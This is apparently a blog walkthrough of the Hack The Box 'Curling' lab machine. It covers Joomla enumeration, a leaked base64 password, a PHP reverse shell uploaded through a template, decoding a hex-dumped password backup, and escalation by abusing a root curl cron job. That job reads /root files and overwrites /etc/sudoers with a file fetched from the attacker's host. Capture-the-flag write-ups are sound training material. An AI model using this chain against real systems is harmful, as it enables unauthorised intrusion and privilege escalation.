

Hack The Box - Curling Walkthrough

Description
I haven’t really done any Hack The Box machine, but during the holidays I decided to root my first box. I wanted to try something easy and Linux based, so I chose “Curling”.
Scanning
I started with my usual fast scanning with nmap, which yielded the following result:
➜ HTB nmap -A -F -sC 10.10.10.150
Starting Nmap 7.60 ( https://nmap.org )
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.45% done; ETC: 10:16 (0:00:00 remaining)
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.27% done; ETC: 10:17 (0:00:00 remaining)
Nmap scan report for 10.10.10.150
Host is up (2.0s latency).
Not shown: 98 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
| 256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_ 256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (EdDSA)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-generator: Joomla! - Open Source Content Management
| http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Well, it’s not much but good enough to start. Let’s go for the web server, where the Joomla CMS is hosted. Joomla had some famous SQL injection and other kinds vulnerabilities and I went for ‘joomscan’ to scan the URL.
➜ HTB perl joomscan.pl -u http://10.10.10.150/
____ _____ _____ __ __ ___ ___ __ _ _
(_ _)( _ )( _ )( \/ )/ __) / __) /__\ ( \( )
.-_)( )(_)( )(_)( ) ( \__ \( (__ /(__)\ ) (
\____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
(1337.today)
--=[OWASP JoomScan
+---++---==[Version : 0.0.7
+---++---==[Update Date : [2018/09/23]
+---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
--=[Code name : Self Challenge
@OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP
Processing http://10.10.10.150/ ...
[+] FireWall Detector
[++] Firewall not detected
[+] Detecting Joomla Version
[++] Joomla 3.8.8
[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable
[+] Checking Directory Listing
[++] directory has directory listing :
http://10.10.10.150/administrator/components
http://10.10.10.150/administrator/modules
http://10.10.10.150/administrator/templates
http://10.10.10.150/images/banners
[+] Checking apache info/status files
[++] Readable info/status files are not found
[+] admin finder
[++] Admin page : http://10.10.10.150/administrator/
[+] Checking robots.txt existing
[++] robots.txt is not found
[+] Finding common backup files name
[++] Backup files are not found
[+] Finding common log files name
[++] error log is not found
[+] Checking sensitive config.php.x file
[++] Readable config files are not found
Looks like this version is quite secure and I couldn’t find anything useful except the administrator page.
Time to visit the site
I was presented with a very basic blog with 3 posts. Out of curiosity, I went to inspect the source code on the main page and I found a secret.txt comment at the bottom of the page.
1 | <html> |
The secret file
It was a base64 encoded text, which looked like a password after decoding.
➜ HTB curl 10.10.10.150/secret.txt
Q3VybGluZzIwMTgh
➜ HTB echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
Finding the username
I went back to examine the blog posts and maybe gather something useful. I tried some possibilities for username like curling20118, Super User, superuser, admin etc.. Eventually, I found the correct username in the third post, which was floris.
My first post of curling in 2018!
Details
Written by Super User
Category: Uncategorised
Published: 22 May 2018
Hits: 7
Hey this is the first post on this amazing website!
Stay tuned for more amazing content! curling2018 for the win!
- Floris
The administrator page
Since SSH didn’t work, I opened up the administrator page and logged in successfully. I was presented with a bunch of administrative stuff, but I knew my goal is to acquire a reverse shell. So, I downloaded a PHP reverse shell from the pentestmonkey.net website and modified the host and port variables.
In the meanwhile, I found out that you can upload PHP files as part of the theme, so I went to the Extensions -> Templates -> Templates menu and selected the protostar template. Created a new PHP file and pasted the reverse shell code.
I fired up my netcat in listening mode on port 9696 and triggered my shell at http://10.10.10.150/templates/protostar/gtfo.php.
➜ HTB nc -lvp 9696
Listening on [0.0.0.0] (family 0, port 9696)
Connection from 10.10.10.150 46310 received!
Linux curling 4.15.0-22-generic #24-Ubuntu x86_64 x86_64 x86_64 GNU/Linux
11:14:14 up 6 min, 2 users, load average: 2.79, 1.11, 0.47
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
floris pts/0 10.10.14.90 11:08 45.00s 0.15s 0.15s -bash
floris pts/1 10.10.15.223 11:09 3:57 2.28s 2.28s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
I didn’t even bother to spawn a pseudo TTY shell, just explored the machine a little bit. I found an interesting password_backup file in the home directory and I copied the content of the file to my local machine.
$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000 BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34 ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960 N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000 ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800 ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034 ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0 i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78 .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931 .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22 .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290 ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503 .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843 7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090 .G.. .U@r..rE8P.
000000f0: 819b bb48 ...H
The user password
I figure, it’s a hex dump, so why not try to recover the data with xxd? My first try was binwalk, but it gave me an error, when I tried to extract the bz2 archive. Here is what I did to recover the password:
➜ HTB xxd -r password_backup password_backup.bin
➜ HTB file password_backup.bin
password_backup.bin: bzip2 compressed data, block size = 900k
➜ HTB mv password_backup.bin password_backup.bz2
➜ HTB mv password_backup original_password_backup
➜ HTB bzip2 -d password_backup.bz2
➜ HTB file password_backup
password_backup: gzip compressed data, was "password"
➜ HTB mv password_backup password_backup.gz
➜ HTB gunzip -d password_backup.gz
➜ HTB file password_backup
password_backup: bzip2 compressed data, block size = 900k
➜ HTB mv password_backup password_backup.bz2
➜ HTB bzip2 -d password_backup.bz2
➜ HTB file password_backup
password_backup: POSIX tar archive (GNU)
➜ HTB mv password_backup password_backup.tar.gz
➜ HTB tar xvf password_backup.tar.gz
password.txt
➜ HTB cat password.txt
The password for SSH is:
5d<wdCbdZu)|hChXll
Logging in with SSH
➜ HTB ssh floris@10.10.10.150
floris@10.10.10.150's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Sun Jan 6 12:14:26 UTC 2019
System load: 0.14 Processes: 170
Usage of /: 46.2% of 9.78GB Users logged in: 0
Memory usage: 22% IP address for ens33: 10.10.10.150
Swap usage: 0%
0 packages can be updated.
0 updates are security updates.
floris@curling:~$ cat user.txt
The flag for the user is:
65dd1df0713b40d88ead98cf11b8530b
Privilege escalation
Previously, I tried enumerating with LinEnum.sh, but no luck. There was an admin-area folder in the home directory and I thought, it must be the right way because of the permissions. I couldn’t figure out, how the input and report files are related to each other until I got a suggestion to check for running processes that are accessing these files.
I downloaded pspy, which turns out to be an excellent tool to monitor Linux processes without root access. After transferring the file, I executed it on the admin-area folder. I waited around 3-5 sec and an interesting process came up.
floris@curling:~$ curl 10.10.15.233:8000/pspy64 -o pspy
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 4364k 100 4364k 0 0 872k 0 0:00:05 0:00:05 --:--:-- 897k
floris@curling:~$ chmod +x pspy
floris@curling:~$ ./pspy -d admin-area/
... snip ...
PID=3165 | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
PID=3164 | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
PID=3163 | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
... snip ...
I read the curl man pages and -K switch is used for config files. This means curl can read parameters from the input file and the report file will be the result of the request.
floris@curling:~/admin-area$ cat input
url = "file:///root/root.txt"
floris@curling:~/admin-area$ cat report
The flag for root is:
82c198ab6fc5365fdc6da2ee5c26064a
Getting a root shell
We are not satisfied with the flag, are we? Let’s get a root shell! If you check back to the curl man page, you can see that we can specify an output parameter.
# --- Example file ---
# this is a comment
url = "example.com"
output = "curlhere.html"
user-agent = "superagent/1.0"
With this in mind, my plan was clear. I printed out the /etc/sudoers the same way I printed the root flag. I copied the content to my local web server and simply added floris below root.
... snip ...
# User privilege specification
root ALL=(ALL:ALL) ALL
floris ALL=(ALL:ALL) ALL
... snip ...
I made the necessary changes in the input file.
url = "http://10.10.15.233:8000/sudoers"
output = "/etc/sudoers"
After a couple of seconds, the request came in and I could easily switch to root with sudo -s.
Before you go
If you found this article helpful, please share to help others with similar interest find it! + Feedbacks and donations are always welcome!